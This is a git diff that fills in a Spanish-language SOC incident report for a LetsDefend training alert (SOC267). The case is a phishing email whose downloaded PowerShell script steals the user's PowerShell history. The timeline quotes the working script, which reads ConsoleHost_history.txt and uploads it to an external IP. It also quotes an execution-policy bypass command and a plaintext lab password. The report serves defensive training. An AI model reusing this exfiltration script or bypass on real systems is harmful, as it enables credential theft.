

SOC267 completado

Changed region(s): [[0.0613, 0.3161, 1.0, 0.9483], [0.0, 0.0, 1.0, 0.2586]]

diff --git a/casos/06_c2/SOC267-AttempttoStealCredentialsfromthePowerShellHistory.md b/casos/06_c2/SOC267-AttempttoStealCredentialsfromthePowerShellHistory.md
@@ -2,9 +2,11 @@
 
 ## 1. Resumen Ejecutivo
 
-Se investigó una alerta de seguridad relacionada con [descripción breve de la alerta].
+Se investigó una alerta de seguridad relacionada con un intento de robo de credenciales desde el historial de PowerShell en el endpoint `Laureen`.
 
-La investigación determinó que se trata de un [Verdadero Positivo / Falso Positivo / Actividad Benigna / Inconcluso].
+El usuario recibió un correo de phishing desde `support@andysalesproject.com`, hizo clic en el enlace, descargó `project_2024.zip` y ejecutó manualmente el script `project.ps1`. El script lee el historial de PowerShell del usuario (`ConsoleHost_history.txt`) y lo sube a un servidor externo (`200.183.149[.]135`). Ese historial contenía la contraseña de la cuenta local `Administrator`, introducida por el propio usuario minutos antes.
+
+La investigación determinó que se trata de un Verdadero Positivo.
 
 ---
 
@@ -14,9 +16,9 @@ La investigación determinó que se trata de un [Verdadero Positivo / Falso Posi
 |---|---|
 | Plataforma | LetsDefend |
 | ID del Caso | SOC267 |
-| Tipo de Alerta | [Phishing / Malware / Fuerza Bruta / ...] |
-| Severidad | [Baja / Media / Alta / Crítica] |
-| Estado | [Cerrado / Escalado / Contenido] |
+| Tipo de Alerta | Phishing / C2 |
+| Severidad | Alta |
+| Estado | Escalado |
 | Analista | Jorge Fernández Córcoles |
 | Fecha | 10/09/2026 |
 
@@ -27,14 +29,14 @@ La investigación determinó que se trata de un [Verdadero Positivo / Falso Posi
 | Campo | Valor |
 |---|---|
 | Nombre de la alerta | Attempt to Steal Credentials from the PowerShell History |
-| IP origen | 162.19.175.104 |
+| IP origen | 200.183.149.135 |
 | IP destino | 172.16.17.205 |
-| Dirección de origen | support@andysalesproject.com |
-| Dirección de destino | laureen@letsdefend.io |
+| Correo origen | support@andysalesproject.com |
+| Correo destino | laureen@letsdefend.io |
 | Hostname | Laureen |
 | Usuario | LetsDefend |
-| Hash del fichero | |
-| URL / Dominio | |
+| Hash del fichero | No disponible |
+| URL / Dominio | https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip |
 | Timestamp | 2024-03-18 05:27:34 |
 
 ---
@@ -42,38 +44,43 @@ La investigación determinó que se trata de un [Verdadero Positivo / Falso Posi
 ## 4. Pasos de la Investigación
 
 ### 4.1 Revisión de la Alerta
-[Describe qué mostraba la alerta y por qué requirió investigación.]
-La alerta mostraba 
+La alerta mostraba un intento de robar credenciales desde el historial de PowerShell. La nota que deja el analista L1 concretó que el endpoint recibió un email desde `support@andysalesproject.com` minutos antes del incidente. Sin embargo, no pudo relacionar el incidente con el email recibido. Después de realizar un análisis completo, se puede determinar con exactitud que el email tiene relación directa con la alerta recibida.
+
 ### 4.2 Análisis de Logs
-[Explica qué logs se revisaron y qué se encontró.]
+Los primeros logs muestran comandos ejecutados por el usuario `LetsDefend`, como por ejemplo `whoami` y `netstat`. Estos van seguidos de comandos de gestión de cuentas locales. Entre ellos está el cambio de contraseña del usuario `Administrator`, que la establece como `Letsdefend123`. 
+
+Estos comandos quedan guardados en el fichero `ConsoleHost_History.txt` que termina siendo exfiltrado después de la descarga y posterior ejecución del script. No hay evidencias de acceso inicial al endpoint antes de ese momento. 
 
 ### 4.3 Análisis de IOCs
-[Resume IPs, dominios, hashes, URLs u otros artefactos sospechosos.]  
-`https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip`
-`200.183.149.135`
+- `support@andysalesproject.com`, es la dirección remitente del correo phishing.  
+- `https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip`, es el sitio web de descarga del fichero malicioso. Este bucket S3 de Amazon aparece como malicioso en VirusTotal: 7/92 proveedores de seguridad la marcan como maliciosa.
+- `project.ps1`, es el script malicioso en sí.  
+- `https://200.183.149[.]135/upload`, es el destino de la exfiltración.  
+- `200.183.149[.]135`, es el servidor C2. Tanto en VirusTotal como en AbuseIPDB aparece con reputación limpia: 0/89 flags y 0% comprometida. 
 
 ### 4.4 Actividad del Usuario / Endpoint
-[Describe la actividad relevante del usuario o del endpoint.]
+El usuario abrió el enlace del correo en Chrome, descargó `project_2024.zip` y lo descomprimió. Después ejecutó `project.ps1`.
+El script comprueba si existe el historial de PowerShell del usuario y, si no está vacío, lo sube por HTTPS a `https://200.183.149[.]135/upload`. No se observa acceso remoto del atacante ni actividad posterior en el endpoint. La exfiltración resultó exitosa.
 
 ### 4.5 Línea de Tiempo del Incidente
 
 | Timestamp | Evento |
 |---|---|
-| 08:40:21 | Comandos de reconocimiento: `whoami`, `whoami /groups`, `ipconfig`, `netstat` |
-| 08:44:18 | Comandos de creación de usuarios, contraseñas y grupos en el endpoint: `$Password = Read-Host -AsSecureString`, `newUser = "Laureen"`, `$groups = Get-LocalGroup -Member Laureen` |
-| 08:51:39 | Con `"C:\Windows\system32\cmd.exe" "/d /s /c ""C:\Program Files\SentinelOne\Sentinel Agent 23.1.2.400\SentinelBrowserNativeHost.exe" chrome-extension://iekfdmgbpmcklocjhlabimljddkeflgl/ --parent-window=0" < \\.\pipe\chrome.nativeMessaging.in.4bcdd72149480e8f > \\.\pipe\chrome.nativeMessaging.out.4bcdd72149480e8f"`, el atacante consigue engañar a la solución SentinelOne a través de la inyección de comandos |
-| 08:51:45 | A esta hora el ususario clica el enlace y se realiza la descarga del zip en el siguiente sitio web malicioso: `https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip` |
-| 08:52:23 | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "-Command" "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\Users\LetsDefend\Downloads\project_2024\project.ps1'"` es utilizado por el atacante para bypassear las restricciones y políticas de ejecución del sistema |
-| 08:52:25 | `$newFilePath = "C:\Users\LetsDefend\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" if (Test-Path -Path $newFilePath -PathType Leaf) { $fileContent = Get-Content -Path $newFilePath -Raw if (![string]::IsNullOrWhiteSpace($fileContent)) { try { $webClient = New-Object System.Net.WebClient $webClient.UploadFile("https://200.183.149.135/upload", $newFilePath) Write-Host "File uploaded successfully." } catch { Write-Host "An error occurred while uploading the file: $_" } } else { Write-Host "The file is empty." } } else { Write-Host "File not found." }`. Tras la ejecución del archivo encontramos este comando con el cual el atacante busca exfiltrar un archivo llamado `ConsoleHost_History.txt` subiéndolo al sitio web: `https://200.183.149.135/upload`. El servidor C2 sería este `200.183.149.135` |
+| 08:27:34 | Se recibe el correo phishing en el endpoint `Laureen` |
+| 08:40:21 | Primeros comandos legítimos del usuario `LetsDefend` en el endpoint: `whoami`, `whoami /groups`, `ipconfig`, `netstat` |
+| 08:44:18 | Comandos de creación de usuario, cambio de contraseñas en claro y consulta de grupos en el endpoint: `"New-LocalUser "Laureen" -Password $Password -FullName "Laureen Sophie" -Description "SOC Member"`, `$Password = Read-Host -AsSecureString`, `$newUser = "Laureen"`, `$groups = Get-LocalGroup -Member Laureen` y `net user Administrator Letsdefend123` |
+| 08:51:45 | A esta hora el ususario clica el enlace y se realiza la descarga del zip desde el siguiente bucket S3 de amazon: `https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip` |
+| 08:52:23 | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "-Command" "if((Get-ExecutionPolicy ) -ne 'AllSigned') { Set-ExecutionPolicy -Scope Process Bypass }; & 'C:\Users\LetsDefend\Downloads\project_2024\project.ps1'"`, que indica que el usuario clicó la opción de "**Ejecutar con PowerShell**" de Windows |
+| 08:52:25 | `$newFilePath = "C:\Users\LetsDefend\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" if (Test-Path -Path $newFilePath -PathType Leaf) { $fileContent = Get-Content -Path $newFilePath -Raw if (![string]::IsNullOrWhiteSpace($fileContent)) { try { $webClient = New-Object System.Net.WebClient $webClient.UploadFile("https://200.183.149[.]135/upload", $newFilePath) Write-Host "File uploaded successfully." } catch { Write-Host "An error occurred while uploading the file: $_" } } else { Write-Host "The file is empty." } } else { Write-Host "File not found." }`. Tras la ejecución del archivo encontramos este comando con el cual el atacante busca exfiltrar un archivo llamado `ConsoleHost_History.txt`, si no está vacío, subiéndolo al sitio web: `https://200.183.149[.]135/upload`. |
 
 ---
 
 ## 5. Hallazgos
 
-- `https://files-ld[.]s3[.]us-east-2[.]amazonaws[.]com/project_2024.zip`
--  
-- `ConsoleHost_History.txt` que contiene el historial de comandos que el usuario LetsDefend ejecutó desde la terminal justo antes de que el atacante tuviera acceso al sistema. Por lo tanto, los primeros comandos no eran de reconocimiento y el atacante no creó ningún usuario con contraseña y grupo: fue el propio usuario. 
-- `200.183.149.135` es el servidor C2 al cual el atacante exflitra esos datos sobre el usuario administrador, su contraseña y los grupos a los que pertenece 
+- El vector de entrada es un correo de phishing con enlace a un fichero comprimido alojado en Amazon S3.
+- La ejecución la realiza el propio usuario; no hay explotación ni acceso remoto del atacante.
+- El historial exfiltrado contenía la contraseña de la cuenta `Administrator` en texto plano. Esa credencial debe considerarse comprometida.
+- El script envía el historial a `200.183.149[.]135`.
 
 ---
 
@@ -81,9 +88,12 @@ La alerta mostraba
 
 | Táctica | Técnica | Sub-técnica | Descripción |
 |---|---|---|---|
-| Acceso Inicial | [Txxxx] | [Txxxx.xxx] | [Explicación] |
-| Ejecución | [Txxxx] | [Txxxx.xxx] | [Explicación] |
-| Evasión de Defensas | [Txxxx] | [Txxxx.xxx] | [Explicación] |
+| Acceso Inicial | T1566 | T1566.002 | El atacante consigue introducir el archivo en el endpoint a través de un link en un correo phishing |
+| Ejecución | T1204 | T1204.002 | El usuario ejecuta `project.ps1` |
+| Ejecución | T1059 | T1059.001 | El payload es un script de PowerShell |
+| Acceso a credenciales | T1552 | T1552.003 | Lectura del historial de PowerShell con la contraseña de `Administrator` en claro |
+| Recolección | T1005 | | Obtención de `ConsoleHost_history.txt` del disco local |
+| Exfiltración | T1041 | | Subida a través de HTTPS a `200.183.149[.]135`, el canal C2 |
 
 ---
 
@@ -91,10 +101,10 @@ La alerta mostraba
 
 | Herramienta | Uso |
 |---|---|
-| VirusTotal | [Para qué se usó] |
-| AbuseIPDB | [Para qué se usó] |
-| MITRE ATT&CK | [Para qué se usó] |
-| [Otra herramienta] | [Para qué se usó] |
+| VirusTotal | Para observar la reputación de IPs, sitios web y dominios maliciosos |
+| AbuseIPDB | Misma función que VirusTotal |
+| MITRE ATT&CK | Para el mapeo de TTPs |
+| El propio endpoint `Laureen` | Para observar el contenido de `ConsoleHost_history.txt` |
 
 ---
 
@@ -102,15 +112,18 @@ La alerta mostraba
 
 | Campo | Valor |
 |---|---|
-| Clasificación | [Verdadero Positivo / Falso Positivo / Benigno / Inconcluso] |
-| Impacto | [Bajo / Medio / Alto] |
+| Clasificación | Verdadero Positivo |
+| Impacto | Alto |
 
 ---
 
 ## 9. Acciones Recomendadas
 
-- [Acción 1]
-- [Acción 2]
-- [Acción 3]
+- Aislar el equipo `Laureen` hasta completar la revisión.
+- Cambiar de inmediato la contraseña de la cuenta local `Administrator`: `Letsdefend123`.
+- Revisar los inicios de sesión de `Administrator` posteriores a la exfiltración.
+- Eliminar `project_2024.zip` y `project.ps1` del equipo y limpiar el historial de PowerShell del usuario.
+- Bloquear el dominio del remitente del correo (andysalesproject[.]com), la URL concreta del bucket S3 en el proxy y la IP `200.183.149[.]135` en el firewall.
+- Formar al usuario para no caer en correos phishing y no pasar contraseñas en claro por línea de comandos, ya que quedan guardadas en el historial.
 
 ---
